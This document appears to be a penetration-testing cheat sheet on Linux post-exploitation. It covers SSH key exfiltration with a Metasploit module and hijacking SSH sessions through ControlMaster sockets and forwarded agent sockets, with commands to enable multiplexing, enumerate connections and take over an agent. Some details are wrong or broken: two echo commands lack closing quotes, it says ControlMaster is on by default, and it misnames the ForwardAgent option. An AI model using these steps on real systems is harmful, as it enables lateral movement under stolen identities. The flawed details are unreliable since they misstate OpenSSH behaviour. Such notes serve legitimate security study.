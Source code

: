 # Linux - Post-Exploit

### SSH keys exfiltration

The metasploit module post/multi/gather/ssh_creds will collect the contents of
all users' .ssh directories on the targeted machine. Additionally,
known_hosts and authorized_keys and any other files are also downloaded.

```
msf > use post/multi/gather/ssh_creds
```

Lateral movement through SSH brute force is possible using private SSH keys,
refer to the [L7] SSH note.

### SSH hijacking

Established SSH sessions can be hijacked to move laterally using the hijacked
user identity with out knowledge of its password or private key.

If SSH connection multiplexing, using the `ControlMaster` feature, or `Agent
forwarding` are enabled, the SSH sessions stored on the compromised system
can be hijacked:
  - connection multiplexing allows for the hijacking of SSH connections made
  from the compromised host
  - `Agent forwarding` allows for the hijacking of SSH connections made to the
  remote host

###### Prerequisites

*ControlMaster*

The SSH `ControlMaster` feature permits the multiplexing, the ability to send
more than one signal over a single line or connection, of SSH connections.
The feature can be enabled and configured both in global or local `ssh_config`:
 `/etc/ssh/ssh_config` or `~/.ssh/config`. Note that `ControlMaster` is enabled
 by default.

If enabled, a control socket will be created on the file system and will be
reused for future connections of the given user to the remote host with out
needing a re-authentication. Control sockets are stored at the location
specified by the `ControlPath` directive. The directive
`ControlPath /tmp/ssh-%r@%h:%p` for example will result in control sockets
stored in `/tmp`: `/tmp/ssh-XXXXXXXXXXXX`.

Note that control sockets will be removed automatically after the master
connection has ended if the `ControlPersist` directive is not configured.
Otherwise, if `ControlPersist` is specified and set to:
  -  `yes`, then the master connection will remain open in the background to
  accept new connections until either killed explicitly or closed with -O ;
  - a time, then the master connection will remain open for the designated time
  or until the last multiplexed session is closed.

The `ControlMaster` feature can be enabled using the following commands:

```
# under Host *, which can be added if needed
echo "Host *" >> /etc/ssh/ssh_config
echo "    ControlMaster auto" >> /etc/ssh/ssh_config
echo "    ControlPersist yes
echo "    ControlPath /tmp/ssh-%r@%h:%p
```

*Agent authentication and forwarding*

`ssh-agent` is an helper program that implements an authentication mechanism
used by `OpenSSH` as a form of SSO. The programs will hold in memory private
keys used for public key authentication so that SSH connections can be made
using the agent directly in order to avoid re entering the private key password
for each connection.

For interfacing with the `ssh` client, the agent provides a UNIX socket at
`/tmp/ssh-<RANDOM>/agent.<AGENT_PID>` and publishes it in the `SSH_AUTH_SOCK`
environment variable.

When `Agent Forwarding` is enabled client-side, either using the `AgentForward`
flag or calling `ssh` with the `-A` option, an SSH agent will be kept on the
remote system accessed in SSH. This allows for a second connection, using SSH,
from this first remote system to a second, or multiple, remote systems with out
the need to deploy the private keys on the first remote system.    
The UNIX socket at `/tmp/ssh-<RANDOM>/agent.<AGENT_PID>` will thus be available
on the first remote system.

Given sufficient permissions on the compromised system, such as `root`
privileges, the socket agent can be hijacked in order to make SSH connection
under the identity of the user running `ssh-agent` with out the need to have
access to its private key (or know its private key password).

###### Connected SSH connections

While there is not direct and explicit way of showing all connected SSH
connections, multiples commands can be used to enumerate active and past SSH
connections using current process, `TTY` sessions or active network connections.

Note that `w` / `who` and `lastlog` will show all the `TTY` sessions including
the terminal and SSH sessions. As the terminal and SSH connections both create a
pseudo-terminal device `pts`, the utility can't be used to distinguish them.   

The `pspy` tool can be used to monitor short lived SSH connections that could be
made using automated utilities to remotely execute commands.

```
# Processes
# sshd: <USERNAME>@pts/1
pgrep -ai sshd
ps auxwww | grep sshd:

# Network connections
# Retrieve sshd port and then established network connection from the port, as shown in the example below
# 0.0.0.0:22              0.0.0.0:*               LISTEN      10/sshd
# x.x.x.x:22              x.x.x.x:40302           ESTABLISHED
netstat -anop

# Active connections
w 2>/dev/null
who -a

# Last connections
lastlog 2>/dev/null |grep -v "Never"

# sshd logs
cat /var/log/sshd.log | grep session
cat /var/log/sshd.log | grep session | grep <USERNAME>

# Short lived SSH connections
pspy
pspy64
```

If present, the control sockets should be accessible in the folder specified by
the `ControlPath` directive in the global or local `ssh_config`.

###### Hijack an SSH connection

The following commands can be used to hijack an SSH agent deployed on the
compromised server using `Agent forwarding`.

In order the find the username, PID and remote host of the SSH agent on the
compromised system, the commands above can be used.

```
# pgrep / ps to find the PID of running sshd process
# netstat to identify the connection origin
# grep SSH_AUTH_SOCK /proc/<PID>/environ to retrieve the corresponding agent socket

export SSH_AUTH_SOCK="/tmp/<ssh-RANDOM>/<agent.PID>"
ssh -p <PORT> <USERNAME>@<HOSTNAME | IP>
```
